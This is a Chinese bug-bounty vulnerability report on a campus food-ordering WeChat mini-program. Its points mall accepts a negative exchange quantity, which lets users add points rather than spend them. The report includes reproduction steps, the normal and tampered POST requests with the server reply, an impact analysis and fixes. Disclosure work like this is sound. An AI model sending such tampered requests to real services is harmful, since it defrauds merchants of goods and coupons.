










湛江市XXXXXXXXXXXXXXXXXX点餐小程序积分商城存在负数参数逻辑漏洞

一、基础信息

漏洞标题：湛江市XXXXXXXXXXXXXXXXXX点餐小程序积分商城存在负数参数逻辑漏洞，可无限刷取积分兑换优惠券

漏洞大类：事件型漏洞

漏洞类型：逻辑漏洞

漏洞等级：中危

厂商名称：湛江市XXXXXXXXXXXXXXXXXX点餐平台

目标域名：2xxxxxn.com

漏洞接口：POST https://www.2xxxxxn.com/applet/score/goods/buy.jhtml

漏洞参数：amount（购买数量参数）

前置条件：小程序正常注册登录账号

二、简要描述

XXXXXX点餐小程序积分商城兑换优惠券接口存在业务逻辑漏洞，后端未对兑换数量参数amount做正数校验，攻击者抓包将数量修改为负整数后提交请求，系统会反向计算扣减积分，导致用户积分不仅不扣除反而增加，可无限循环刷取平台积分。刷取的积分可用于兑换平台各类无门槛优惠券，造成平台资产损失。

三、详细细节

1. 目标资产与环境基础信息

2. 漏洞原理

积分商城兑换优惠券接口接收amount参数控制兑换数量，后端仅直接使用该参数乘以单价计算扣减积分，未校验参数是否为正整数。当攻击者将amount修改为负数时，积分计算公式变为「负数 × 单价」，结果为负值，扣减负积分等同于向用户账户增加积分，实现无成本刷取平台积分。刷取的积分可正常兑换平台全场优惠券，直接造成平台经济损失。

3. 完整复现步骤

打开XXXXXX点餐小程序，点击我的

点击积分商城

随便选择一个优惠券商品，点击兑换

点击立即兑换

点击提交订单

抓到一条post型数据包，点击FUZZ

修改数据包中的amount值，改为负整数（如-2），然后点击发送请求。

返回小程序→我的，查看积分变化

点击积分，查看详细积分记录

当我们第一次在小程序手动点击提交订单的时候，积分扣了30分，当我们抓到包改了数据再次点击发送请求的时候，积分加了60分。所以最后积分比原来加了30分。

漏洞验证并利用成功！

4.POC：

原始正常兑换请求包（amount=1）

POST /applet/score/goods/buy.jhtml HTTP/1.1

Host: www.2xxxxxn.com

Connection: keep-alive

Content-Length: 517

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36 MicroMessenger/7.0.20.1781(0x6700143B) NetType/WIFI MiniProgramEnv/Windows WindowsWechat/WMPF WindowsWechat(0x63090a13) UnifiedPCWindowsWechat(0xf2541b37) XWEB/20089

xweb_xhr: 1

Content-Type: application/x-www-form-urlencoded

Accept: */*

Sec-Fetch-Site: cross-site

Sec-Fetch-Mode: cors

Sec-Fetch-Dest: empty

Referer: https://servicewechat.com/xxxxxxxxxxxxxxxxxxxxxx/page-frame.html

Accept-Encoding: gzip, deflate, br

Accept-Language: zh-CN,zh;q=0.9

customerName=xxxxxxxxxxxxxxxxxxxxxx&customerAddress=xxxxxxxxxxxxxxxxxxxx&customerTelephone=xxxxxxxxxxx&id=39&amount=1&scorePayType=2&customerId=xxxxx&userId=1&appletId=4&apiToken=xxxxxxxxxxxxxxxxxxx&loginCustomerId=xxxxx&loginCustomerToken=xxxxxxxxxxxxxxxxxxxxxx&_api_version_=3&requestFromType=wechatApplet&nonce=FLBOpPhn5uHuYvoO&timestamp=1784805083324&signature=65abeed9a5e910306a043b9b8c57c364

恶意利用请求包（amount=-2，刷取积分）

POST /applet/score/goods/buy.jhtml HTTP/1.1

Host: www.2xxxxxn.com

Connection: keep-alive

Content-Length: 517

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36 MicroMessenger/7.0.20.1781(0x6700143B) NetType/WIFI MiniProgramEnv/Windows WindowsWechat/WMPF WindowsWechat(0x63090a13) UnifiedPCWindowsWechat(0xf2541b37) XWEB/20089

xweb_xhr: 1

Content-Type: application/x-www-form-urlencoded

Accept: */*

Sec-Fetch-Site: cross-site

Sec-Fetch-Mode: cors

Sec-Fetch-Dest: empty

Referer: https://servicewechat.com/xxxxxxxxxxxxxxxxxxxxxxx/page-frame.html

Accept-Encoding: gzip, deflate, br

Accept-Language: zh-CN,zh;q=0.9

customerName=xxxxxxxxxxxxxxxxxxxxx&customerAddress=xxxxxxxxxxxxxxxxxxxx&customerTelephone=xxxxxxxxxx&id=39&amount=-2&scorePayType=2&customerId=xxxxx&userId=1&appletId=4&apiToken=xxxxxxxxxxxxxxxx&loginCustomerId=xxxxx&loginCustomerToken=xxxxxxxxxxxxxxxxxxx&_api_version_=3&requestFromType=wechatApplet&nonce=FLBOpPhn5uHuYvoO&timestamp=1784805083324&signature=65abeed9a5e910306a043b9b8c57c364

服务器响应

HTTP/1.1 200

Server: nginx

Date: Thu, 23 Jul 2026 11:14:18 GMT

Content-Type: text/html; charset=utf-8

Connection: keep-alive

Pragma: No-cache

Cache-Control: no-cache

Expires: Thu, 01 Jan 1970 00:00:00 GMT

Content-Length: 20

{"ret":0,"id":58164}

5. 漏洞危害

直接经济损失：攻击者可无限循环刷取平台积分，用积分兑换全场无门槛优惠券，零成本点餐消费，直接造成平台商家资金损失；

积分体系崩溃：平台积分可通过漏洞无限制获取，积分奖励体系完全失效，签到、评论等正常获取积分的功能失去意义；

黄牛套利风险：恶意用户批量刷取积分兑换大量优惠券，低价转售牟利，扰乱平台正常运营秩序；

订单数据异常：负数兑换数量会产生异常订单记录，影响平台财务对账、数据统计准确性；

同类风险扩散：该漏洞模式可能存在于平台其他支付、抵扣类接口，存在批量刷取余额、优惠的潜在风险。

四、修复方案

服务端强制参数校验：积分兑换接口后端对amount参数增加严格校验，必须为大于 0 的正整数，过滤负数、零、小数及非数字字符，非法参数直接拦截返回错误；

积分扣减逻辑二次校验：执行积分扣减前二次判断最终扣减值是否为正数，若计算结果为负直接拒绝交易，防止反向加积分；

事务级积分一致性校验：兑换操作使用数据库事务，扣减积分前先查询用户当前积分，扣减后再次校验积分余额变化是否符合预期，异常则回滚；

全接口统一参数校验：排查平台所有涉及数量、金额、积分计算的接口，统一增加正数校验规则，避免同类负数绕过漏洞；

异常订单监控告警：增加积分变动异常监控，对短时间内高频积分变动、负数量订单等异常行为触发告警并人工审核；

签名防篡改加固：对关键业务参数增加签名校验，防止参数被抓包篡改，提升接口整体安全性。

补天平台提交漏洞记录截图：

| 信息项 | 详情 |
| 所属厂商 | 湛江市XXXXXXXXXXXXXXXXXX点餐平台 |
| 一级域名 | 2xxxxxn.com |
| 业务入口 | 微信小程序XXXXXX点餐 |
| 服务器 IP | www.2xxxxxn.com |
| Web 服务 | nginx |
| 服务端口 | 443（HTTPS） |
| 系统名称 | XXXXXX点餐小程序 |
| 系统定位 | 校园外卖点餐平台，覆盖XXXXXX等高校，提供点餐、积分兑换优惠券等服务 |
| 漏洞模块 | 积分商城 - 优惠券兑换 |